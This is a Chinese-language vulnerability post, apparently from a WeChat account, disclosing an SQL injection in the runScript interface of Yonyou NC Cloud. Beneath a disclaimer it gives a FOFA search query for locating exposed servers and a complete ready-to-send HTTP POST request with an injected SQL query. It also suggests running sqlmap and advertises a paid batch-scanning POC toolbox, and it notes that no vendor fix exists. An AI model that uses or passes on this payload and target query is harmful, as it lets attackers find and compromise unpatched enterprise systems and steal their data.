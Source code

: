 #  用友NC runScript接口存在SQL注入漏洞 附POC软件   
南风徐来  南风漏洞复现文库   2024-03-20 21:12  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 用友NC 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友网络是全球领先的企业与公共组织软件、云服务、金融服务提供商。提供营销、制造、财务、人力等产品与服务，帮助客户实现发展目标，进而推动商业和社会进步。  
## 2.漏洞描述  
  
用友 NC Cloud，大型企业数字化平台， 聚焦数字化管理、数字化经营、数字化商业，帮助大型企业实现 人、财、物、客的全面数字化，从而驱动业务创新与管理变革，与企业管理者一起重新定义未来的高度。为客户提供面向大型企业集团、制造业、消费品、建筑、房地产、金融保险等14个行业大类，68个细分行业，涵盖数字营销、智能制造、财务共享、数字采购等18大解决方案，帮助企业全面落地数字化。用友NC runScript接口存在SQL注入漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
用友NC Cloud  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YxtuicqUetBuEeia9f8JJoL1Mib5siaucNb7cn980bSSFFaCb5l9FHIVT69o1Vztfu8P9vjUP3asgXNQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
用友NC runScript接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
body="UClient.dmg"||app="用友-U8-Cloud"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/ncchr/attendScript/internal/runScript  
  
漏洞数据包：  
```
POST /ncchr/attendScript/internal/runScript HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Accept-Language: en
Authorization: 58e00466213416018d01d15de83b0198
Content-Length: 59

key=1&script=select 1,111*111,user,4,5,6,7,8,9,10 from dual
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YxtuicqUetBuEeia9f8JJoL13Zx24Zf3bVJ99keWkfeCWC6Xf7icEDueGdYlbt9KrZP78GTgiaE2Eggg/640?wx_fmt=jpeg&from=appmsg "null")  
  
可以跑sqlmap  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YxtuicqUetBuEeia9f8JJoL1x8vK2Py8MckScuzOB21McYvOeliau92uCxAufAvXQ0ASJkbXCvsVBLg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YxtuicqUetBuEeia9f8JJoL1H8axdVAAyVkibd5VHBmZ7BAnuZFFZ6DPd3o2tkl0OaTagkH6cWEvCHg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YxtuicqUetBuEeia9f8JJoL1hmh6qhuIZvZU22xMZyjUj4l66IUgB6D0ZLRp2icgukOusXo7ibFjNtHw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YxtuicqUetBuEeia9f8JJoL1mxlBOTwxrR7eBxcRvrMUicazHNuXbxGLoc54LKjTfdnqUYnDBhbTNaA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YxtuicqUetBuEeia9f8JJoL1eibLPpghticzmyDp6YicM63ibL59GCIZM8LuugnAHjcLLFJqG5OhOkjBdw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YxtuicqUetBuEeia9f8JJoL1tVSNcQFENLiaT1LEibFuEmRrKlNDOZZZZmMhia4f5drjiaOdQFcWQYibXYg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YxtuicqUetBuEeia9f8JJoL19u3XIKV6S8YQlFrADHvoOOicQlOaGZu01n6KiasqPhQSjXmia1zHZHFwA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
厂商尚未提供漏洞修复方案，请关注厂商主页更新： https://www.yonyou.com/  
## 8.往期回顾  
  
[大华智慧园区综合管理平台clientServer存在SQL注入漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485829&idx=1&sn=16d23e7e11cc7cff1fbfd11f000a80f3&chksm=974b8482a03c0d94799dd4a06ef8ad5484b129844b8e68b2db2a538bdc0cb1c44bbc8e893659&scene=21#wechat_redirect)  
  
  
[泛微e-cology getE9DevelopAllNameValue2接口存在任意文件读取漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485795&idx=1&sn=15af77d340517e0f3d61519153b46e26&chksm=974b8464a03c0d721027afbca07d05e066d9f9c2e4be1d4f9a2a779fbfcbe7c3e6921db37c71&scene=21#wechat_redirect)  
  
  
  
  
